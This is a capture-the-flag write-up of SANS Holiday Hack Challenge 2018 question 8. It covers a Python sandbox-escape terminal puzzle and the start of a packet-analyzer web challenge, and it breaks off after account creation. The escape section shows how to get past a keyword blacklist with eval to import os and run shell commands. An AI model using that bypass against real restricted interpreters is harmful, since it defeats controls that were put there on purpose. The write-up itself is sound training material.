




# SANS HOLIDAY HACK CHALLENGE - 2018 - QUESTION 8

```
https://holidayhackchallenge.com/2018/story.html
```

### DESCRIPTION

Santa has introduced a web-based packet capture and analysis tool to support the elves and their information security work. Using the system, access and decrypt HTTP/2 network activity. What is the name of the song described in the document sent from Holly Evergreen to Alabaster Snowball? For hints on achieving this objective, please visit SugarPlum Mary and help her with the Python Escape from LA Cranberry Pi terminal challenge.

### CRANBERRY PI CHALLENGE



```
<SugarPlum>

Hi, I'm Sugarplum Mary.

I'm glad you're here; my terminal is trapped inside a python! Or maybe my python is trapped inside a terminal?

Can you please help me by escaping from the Python interpreter?

</SugarPlum>
```

##### PYTHON ESCAPE FROM LA

```
              :lllllllllllllllllllllllllllllllllllllllll,                      
               'lllllllllllllllllllllllllllllllllllllllll:                      
                clllllllllllllllllllllllllllllllllllllllll.                     
                'lllllllllllllllllllllllllllllllllllllllll:                     
                 ;lllllllllllllllllllllllllllllllllllllllll,                    
                  :lllllllllllllllllllllllllllllllllllllllll.                   
                   :lllllllllllllllllllllllllllllllllllllllll.                  
                    ;lllllllllllllllllllllllllllllllllllllllll'                 
                     'lllllllllllllllllllllllllllllllllllllllll;                
                      .cllllllllllllllllllllllllllllllllllllllllc.              
                      .:llllllllllllllllllllllllllllllllllllllllllc,.           
                   .:llllllllllllllllllllllllllllllllllllllllllllllll;.         
                .,cllllllllllllllllllllllllllllllllllllllllllllllllllll,        
              .;llllllllllllllllllllllllllllllllllllllllllllllllllllllllc.      
             ;lllllllllllllllllllllllllllllllllllllllllllllllllllllllllllc.     
           'llllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllc     
          :lllllll:..,..'cllllllllllllllllllllllc'.,'.'clllllllllllllllllll;    
        .clllllll'  :XK.  :llllllllllllllllllll;  ,XX.  ;lllllllllllllllllll.   
       .cllllllll.  oXX'  ,llllllllllllllllllll.  cXX;  .lllllllllllllllllll'   
       clllllllll;  .xl  .cllllllllllllllllllllc.  do  .clllllllllllllllllll,   
      :llllllllllll;'..':llllllllllllllllllllllll:'..':lllllllllllllllllllll'   
     .llllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllll.   
     ;lllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllc    
     clllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllll.    
     cllllllllllllllllllllllllll..;lc..:llllllllllllllllllllllllllllllllll;     
     :lllllllllllllllllllllllll:  .l,  .lllllllllllllllllllllllllllllllll:      
     ,lllllllllllllllllllllllllc  .l;  ,llllllllllllllllllllllllllllllll:       
     .llllllllllllllllllllllllllc;lll::llllllllllllllllllllllllllllllll,        
      'llllllllllllllllllllllllllllllllllllllllllllllllllllllllllllllc.         
       ,llllllllllllllllllllllllllllllllllllllllllllllllllllllllllll,           
        'llllllllllllllllcccccccc;',.,clllllllllllllllllllllllllll,             
         .cllllllc:::::;;,,,,'...':c:;...'',,;;;::::::lllllllllc,               
           'cllllc::;::::cccccccccllc,,,,,,,'',:::::::lllllll;.                 
             .:llllllllllkMMMMMMMMMdlclllllllllollllllllll;.                    
               .':lllllllXMMMMMMMMMoloWMMMMMMMMXllllll:,.                       
                   .,:llccccccccccllllXMMMMMMMMWl:;'.                           
                      .,,,,,,,,,,clll:::::::::;                                
                      'lllllllllc.    ',,,,,,,,.                                
                     lMMMMMMMMMW,    .ddddddddd.                                
                    kMMMMMMMMMX.     kMMMMMMMMK                                 
                   ':::::::::,      .NWWWWWWWW:                                 
                  ',,,,,,,,,.       .,,,,,,,,'                                  
                .oooooooooo.        ',,,,,,,,.                                  
               .NMMMMMMMMW;        cOOOOOOOOx                                   
               0MMMMMMMMMc         NMMMMMMMMk                                   
               ;;;;;;;;;'         .KKKKKKKKK:                                   
              .,,,,,,,,,           ,,,,,,,,,.                                   
              .ddddddddo           ',,,,,,,,.                                   
               XMMMMMMMN           cKKKKKKKKK.                                  
    .;:::;;,,,,,:ldddddd.           0MMMMMMMMX.       ....                      
      .,:ccccccccccccccc            'cccccccccc:::ccccc;.                       
         .:ccccccccccccc            .ccccccccccccccc:'.                         
           .;;;;;;;;;;;;            .ccccccccccccc;.                            
                                    ..............                              
                                                                                
                                                                                
I'm another elf in trouble,
Caught within this Python bubble.
Here I clench my merry elf fist -
Words get filtered by a black list!
Can't remember how I got stuck,
Try it - maybe you'll have more luck?
For this challenge, you are more fit.
Beat this challenge - Mark and Bag it!
-SugarPlum Mary

To complete this challenge, escape Python
and run ./i_escaped
```

###### ELF HINT

```
Python Escape

Check out Mark Baggett's talk upstairs

Escaping Python Shells
Mark Baggett
https://www.youtube.com/watch?v=ZVx2Sxl3B9c
```

###### CRANBERRY PI ENUMERATION

```
To complete this challenge, escape Python
and run ./i_escaped
>>> os.system("ls")
Use of the command os.system is prohibited for this question.
>>> import importlib
Use of the command import is prohibited for this question.
>>> __import__("os)
Use of the command import is prohibited for this question.
>>> exec("imp" + "ort os")
Use of the command exec is prohibited for this question.
>>> my = eval('__im' + 'port__("os")')
>>> my.system("ls")
i_escaped
>>> my.system("./i_escaped")
Loading, please wait......
 
  ____        _   _                      
 |  _ \ _   _| |_| |__   ___  _ __       
 | |_) | | | | __| '_ \ / _ \| '_ \      
 |  __/| |_| | |_| | | | (_) | | | |     
 |_|___ \__, |\__|_| |_|\___/|_| |_| _ _ 
 | ____||___/___ __ _ _ __   ___  __| | |
 |  _| / __|/ __/ _` | '_ \ / _ \/ _` | |
 | |___\__ \ (_| (_| | |_) |  __/ (_| |_|
 |_____|___/\___\__,_| .__/ \___|\__,_(_)
                     |_|                             
That's some fancy Python hacking -
You have sent that lizard packing!
-SugarPlum Mary
            
You escaped! Congratulations!
0
>>> 0
```

```
<SugarPlum>

Yay, you did it! You escaped from the Python!

As a token of my gratitude, I would like to share a rumor I had heard about Santa's new web-based packet analyzer - Packalyzer.

Another elf told me that Packalyzer was rushed and deployed with development code sitting in the web root.

Apparently, he found this out by looking at HTML comments left behind and was able to grab the server-side source code.

There was suspicious-looking development code using environment variables to store SSL keys and open up directories.

This elf then told me that manipulating values in the URL gave back weird and descriptive errors.

I'm hoping these errors can't be used to compromise SSL on the website and steal logins.

On a tooootally unrelated note, have you seen the HTTP2 talk at at KringleCon by the Chrises? I never knew HTTP2 was so different!

</SugarPlum>
```

###### MORE ELF HINTS

```
Look at HTML comment
```

```
HTTP/2.0 Intro and Decryption

Did you see Chris' & Chris' talk on HTTP/2.0?
```

### SOLUTION

```
Packalyzer web-based packet capture and analysis tool 

https://packalyzer.kringlecastle.com/
```



We create an account for ourselves..

```
fortyfunbobby:40bby
forty@mail.com
```





